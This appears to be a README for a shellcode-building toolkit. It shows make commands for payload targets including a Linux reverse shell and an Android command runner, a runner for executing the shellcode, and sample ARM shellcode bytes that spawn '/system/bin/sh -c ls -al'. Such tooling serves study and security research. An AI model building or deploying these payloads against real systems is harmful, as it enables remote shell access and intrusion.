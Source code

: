 ## Make Shellcode

* build shellcode:

```shell
make shellcode T=linux.reverse64IPv4
or
make shellcode T=android.cmd32
```

* build elf for run shellcode:

```shell
make run T=linux
or
make run T=arm
```

* run shellcode:

```
./run ./shellcode
```

you can run `./shellcode.elf` directly for android shellcode.


* shellcode to array:

```shell
╭─ 
╰─ python ./tools/s2a.py shellcode

var JavaScript_shellcode = new Uint8Array([
    0x1c, 0x00, 0x8f, 0xe2, 0x27, 0x50, 0x8f, 0xe2,
    0x26, 0x60, 0x8f, 0xe2, 0x00, 0x80, 0xa0, 0xe3,
    0x61, 0x01, 0x2d, 0xe9, 0x0d, 0x10, 0xa0, 0xe1,
    0x00, 0x20, 0xa0, 0xe3, 0x0b, 0x70, 0x00, 0xe3,
    0x00, 0x00, 0x00, 0xef, 0x2f, 0x73, 0x79, 0x73,
    0x74, 0x65, 0x6d, 0x2f, 0x62, 0x69, 0x6e, 0x2f,
    0x73, 0x68, 0x00, 0x2d, 0x63, 0x00, 0x6c, 0x73,
    0x20, 0x2d, 0x61, 0x6c, 0x00, 0x00, 0x00, 0x00,
])
char C_shellcode[] =
    "\x1c\x00\x8f\xe2\x27\x50\x8f\xe2"
    "\x26\x60\x8f\xe2\x00\x80\xa0\xe3"
    "\x61\x01\x2d\xe9\x0d\x10\xa0\xe1"
    "\x00\x20\xa0\xe3\x0b\x70\x00\xe3"
    "\x00\x00\x00\xef\x2f\x73\x79\x73"
    "\x74\x65\x6d\x2f\x62\x69\x6e\x2f"
    "\x73\x68\x00\x2d\x63\x00\x6c\x73"
    "\x20\x2d\x61\x6c\x00\x00\x00\x00"

```

## refs

[Exploit Database Shellcodes](https://www.exploit-db.com/shellcodes)

[Shellcodes database for study cases](http://shell-storm.org/shellcode/)

[Linux System Call Table](https://chromium.googlesource.com/chromiumos/docs/+/master/constants/syscalls.md)
